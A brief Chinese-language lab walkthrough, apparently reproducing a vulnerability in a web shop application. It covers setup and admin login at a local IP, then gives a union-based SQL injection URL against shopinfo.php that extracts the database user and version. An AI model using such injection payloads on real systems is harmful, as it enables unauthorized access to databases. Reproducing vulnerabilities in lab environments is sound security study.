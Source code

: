 
# 实战
在浏览器输入
```
http://IP:PORT/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)



## 攻击实战

在浏览器输入后台管理地址，进行登录
```
http://192.168.1.170:7777/admin/
```

![image]({path}/4.png)


在浏览器输入

```
http://192.168.1.170:7777/admin/shopinfo.php?act=edit&id=111%20and%201=2%20union%20select%201,user(),version()
```
![image]({path}/5.png)

